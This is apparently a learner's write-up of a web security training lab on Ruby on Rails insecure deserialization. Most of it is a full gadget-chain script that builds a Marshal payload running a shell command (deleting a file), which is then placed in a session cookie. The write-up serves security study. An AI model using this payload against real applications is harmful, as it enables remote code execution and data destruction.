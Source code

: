 # Practitioner Lab 102: Exploiting Ruby deserialization using a documented gadget chain

---

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

![Untitled](Practitioner%20Lab%20102%20Exploiting%20Ruby%20deserializati%206ed7c24c28f6413d86e2c0f74fe9b7a0/Untitled.png)

There is a ruby insecure deserialization.

![Untitled](Practitioner%20Lab%20102%20Exploiting%20Ruby%20deserializati%206ed7c24c28f6413d86e2c0f74fe9b7a0/Untitled%201.png)

The following code 

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)

```

When I put this into the cookie it solved it.

![Untitled](Practitioner%20Lab%20102%20Exploiting%20Ruby%20deserializati%206ed7c24c28f6413d86e2c0f74fe9b7a0/Untitled%202.png)

After adding it to the cookie I was able to solve it.